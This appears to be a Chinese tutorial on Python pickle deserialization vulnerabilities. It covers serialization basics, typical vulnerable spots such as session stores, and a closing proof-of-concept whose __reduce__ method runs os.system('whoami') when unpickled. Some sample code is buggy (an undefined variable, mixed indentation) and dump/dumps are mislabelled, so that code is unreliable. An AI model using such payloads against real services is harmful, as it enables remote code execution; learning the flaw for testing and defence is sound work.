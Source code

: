



## pickle反序列化

**能够被序列化的对象**

-   `None`、`True` 和 `False`
-   整数、浮点数、复数
-   `str`、`byte`、`bytearray`
-   只包含可打包对象的集合，包括 tuple、list、set 和 dict
-   定义在模块顶层的函数（使用 [`def`](https://docs.python.org/zh-cn/3.7/reference/compound_stmts.html#def) 定义，[`lambda`](https://docs.python.org/zh-cn/3.7/reference/expressions.html#lambda) 函数则不可以）
-   定义在模块顶层的内置函数
-   定义在模块顶层的类
-   某些类实例，这些类的 [`__dict__`](https://docs.python.org/zh-cn/3.7/library/stdtypes.html#object.__dict__) 属性值或 [`__getstate__()`](https://docs.python.org/zh-cn/3.7/library/pickle.html#object.__getstate__) 函数的返回值可以被打包（详情参阅 [打包类实例](https://docs.python.org/zh-cn/3.7/library/pickle.html#pickle-inst) 这一段）

**对于不能序列化的类型，如lambda函数，使用pickle模块时则会抛出 [`PicklingError`](https://docs.python.org/zh-cn/3.7/library/pickle.html#pickle.PicklingError) 异常。**

>   **Python使用pickle进行序列化和反序列化，然后发现面临的一个获取不到返回值的框架，**
>
>   **似乎可以通过在框架中先序列化，然后在外部进行反序列化的方法来实现**

**主要方法**

```nginx
dump	对象反序列化到文件对象并存入文件
dumps	对象反序列化为 bytes 对象
load	对象反序列化并从文件中读取数据
loads	从 bytes 对象反序列化
```

```nginx
pickle.dump(obj, file, protocol=None, *, fix_imports=True)
	# obj：将 Python 对象 obj 序列化并写入文件对象 file 中
	# protocol：指定序列化协议的版本号，不写默认最高，可填0-5
	# fix_imports：用于控制是否自动修复导入的模块和类名

pickle.dumps(obj, protocol=None, *, fix_imports=True)
	# 将 obj 封存以后的对象作为 bytes 类型直接返回，而不是将其写入到文件
```

**正常序列化案例**

```nginx
import pickle
 
class Person():
    def __init__(self):
        self.age=18
        self.name="Pickle"
 
p=Person()
opcode=pickle.dumps(p)
print(opcode)
#结果如下
#b'\x80\x04\x957\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x06Person\x94\x93\x94)\x81\x94}\x94(\x8c\x03age\x94K\x12\x8c\x04name\x94\x8c\x06Pickle\x94ub.'
 
 
P=pickle.loads(opcode)
print('The age is:'+str(P.age),'The name is:'+P.name)
#结果如下
#The age is:18 The name is:Pickle
```

****

**本地的序列化与反序列化案例**

```py
import pickle

# 定义一个序列化的对象
class BeSerializing:
    # 初始化变量
    def __init__(self):
        self.var = "这是参数的内容"

    def print_var(self):
        print(f"self var value is:{self.var}")

# 进行序列化
class Serializing:
    def do_serializing(self):
        obj = BeSerializing()
        # with的好处是会最后自动释放获取的资源，对于文件就是最后会自己close()
        # 使用 open 函数打开一个文件句柄 file_handler，以二进制写入模式 "wb"。
        with open("test_pickle.obj", "wb") as file_handler:
            # 序列化，将对象写到文件
            pickle.dump(obj, file_handler)	 # 序列化并将 obj 对象写入文件

# 进行反序列化
class DeSerializing:
    def do_serializing(self):
        with open("test_pickle.obj", "rb") as file_handler:
            # 反序列化，将对象从文件中还原
            # 注意，虽然python的变量不需要使用前先定义类型，但使用时是要被格式化成确定类型的
            # 所以，如果反序列化类和被序列化类不在同一文件中，那么需要将被序列化类import进来，不然会因找不到被反序列化类而反序列化失败
            obj = pickle.load(file_handler)
            print(f"对象类型: {type(obj)}\n"
                  f"参数值: {obj.var}")


if __name__ == "__main__":
  	obj_se = Serializing()  # 创建 Serializing 类的实例对象 obj_se
    obj_se.do_serializing()  # 调用 do_serializing 方法进行序列化操作
    obj_de = DeSerializing()  # 创建 DeSerializing 类的实例对象 obj_de
    obj_de.do_serializing()  # 调用 do_serializing 方法进行反序列化操作
    
```

**网络的序列化与反序列化案例**

>   **上一个是以文件作为中介实现序列化与反序列化的**，
>
>   但如果到**网络中就没有文件作为中介**。
>
>   此时可以使用`pickle.dumps()`和`pickle.loads()`**进行序列化与反序列化。**

```py
import binascii
import pickle

# 需要序列化的对象
class BeSerializing:
    def __init__(self):
        self.var = "a test string."

    def print_var(self):
        print(f"self var value is:{self.var}")

# 序列化
class NoFileSerializing:
    def do_serializing(self):
        be = BeSerializing()
        
        # 二进制直接decode可能很多位置没法解码（codec can't decode）
        obj_bytes = pickle.dumps(be)
        # 所以先转成ascii码形式的16进制再decode
        str = binascii.b2a_hex(obj_bytes).decode(encoding="ascii")

        # 模拟网络远端获取传过来的字符串
        net_str = str
        # 还原成二进制
        net_bytes = binascii.a2b_hex(net_str.encode(encoding="ascii"))
        # 反序列化
        obj_str = pickle.loads(net_bytes)
        print(obj_dst.var)	# 输出：a test string.

if __name__ == "__main__":
    obj_nf = NoFileSerializing()
    obj_nf.do_serializing()
```

### 漏洞常见出现地方

1.  通常在解析认证`token`, `session`的时候，现在很多`Web`服务都使用`redis`、`mongodb`、`memcached`等来存储`session`等状态信息.
2.  可能将对象`Pickle`后存储成磁盘文件
3.  可能将对象`Pickle`后在网络中传输

### 漏洞利用方式

>   **漏洞产生的原因在于其可以将自定义的类进行序列化和反序列化,** 
>
>   **反序列化后产生的对象会在结束时触发`__reduce__()`函数从而触发恶意代码**.
>
>   ==`__reduce__`方法会在反序列化时固定调用==

**基本payload**

```nginx
import pickle
import os

class Person():
    def __init__(self):
        self.age = 18
        self.name = "Pickle"

    # 该函数能够定义该类的二进制字节流被反序列化时进行的操作，
    # 返回值是一个(callable, ([para1,para2...])[,...])类型的元组
    # 当字节流被反序列化时，Python就会执行callable(para1,para2...)函数
    def __reduce__(self):
        # 因此当上述的Person对象被unpickling时，就会执行os.system(command)，
        command = r"whoami"
        return os.system, (command,)


p = Person()
opcode = pickle.dumps(p)
print(opcode)

P = pickle.loads(opcode)
print('The age is:' + str(P.age), 'The name is:' + P.name)

```











